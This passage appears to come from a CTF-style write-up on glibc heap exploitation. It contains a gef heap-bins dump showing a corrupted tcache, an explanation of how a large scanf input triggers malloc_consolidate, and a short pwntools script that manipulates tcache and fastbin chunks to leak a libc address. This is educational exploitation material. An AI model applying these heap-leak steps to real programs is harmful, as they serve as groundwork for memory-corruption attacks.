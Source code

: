 ```sh
gef> bins
[!] tcache[2] is corrupted.
---------------------------------------------------------------------------- Tcache Bins for arena 'main_arena' ----------------------------------------------------------------------------
tcachebins[idx=2, size=0x40, @0x55573dde50a0]: fd=0x00055573dde5 count=0
 -> 0x55573dde5 [Corrupted chunk]
[+] Found 0 valid chunks in tcache.
----------------------------------------------------------------------------- Fast Bins for arena 'main_arena' -----------------------------------------------------------------------------
[+] Found 0 valid chunks in fastbins.
--------------------------------------------------------------------------- Unsorted Bin for arena 'main_arena' ---------------------------------------------------------------------------
unsorted_bin[idx=0, size=any, @0x7f415e003b30]: fd=0x55573dde5310, bk=0x55573dde5310
 -> Chunk(base=0x55573dde5310, addr=0x55573dde5320, size=0x510, flags=PREV_INUSE, fd=0x7f415e003b20, bk=0x7f415e003b20)
[+] Found 1 valid chunks in unsorted bin.
---------------------------------------------------------------------------- Small Bins for arena 'main_arena' ----------------------------------------------------------------------------
[+] Found 0 valid chunks in 0 small bins.
---------------------------------------------------------------------------- Large Bins for arena 'main_arena' ----------------------------------------------------------------------------
[+] Found 0 valid chunks in 0 large bins.
```

### Alternative Way Using `scanf`

> [!NOTE]
> Apparently, there is an alternative way utilizing scanf (<https://blog.quarkslab.com/heap-exploitation-glibc-internals-and-nifty-tricks.html#2.%20libc%20leak>)

When we provide `scanf` with a huge input (> 0x400 bytes), it would call malloc
(`__libc_scratch_buffer_grow_preserve+0x63`) and during this call `malloc_consolidate`
is triggered[^9]. This particular code path is taken due to our input that is more
than 0x400 bytes caused `scanf` to `malloc` 0x800, 0x1000, 0x2000, 0x4000, ...,
bytes of memory which is larger than fastbin[^10] and small bin[^11] maximum capacity.

This `malloc_consolidate` first consolidates fastbin chunk into unsorted bin,
then process unsorted chunks and sort it into appropriate bins according to its size
(small bin and large bin)[^12].

> [!NOTE]
> See [appendix](#malloc_consolidate-note) for further analysis on how
> `malloc_consolidate` works under the hood


> [!NOTE]
> TODO: Study the sorting of unsorted chunks (<https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4070>)

```python
io = start()

for i in range(8):
    create(i, b"a")

# fill up tcache bin and obtain 1 fastbin
for i in range(8):
    delete(7-i)  # necessary to delete in reverse order, otherwise won't work

# triggers malloc_consolidate()
io.sendlineafter(b"> ", b"1" * 0x500)

# the fastbin is somehow moved into small bin
libc_leak = u64(read(0)[:8])
log.info(f"{libc_leak=:#x}")

```

[^1]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L329>
[^2]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4513>
[^3]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4678>
[^4]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4720>
[^5]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4538>
[^6]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4527>
[^9]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4041>
[^10]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L3914>
[^11]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L3977>
[^12]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4161>
[^99]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L1812>
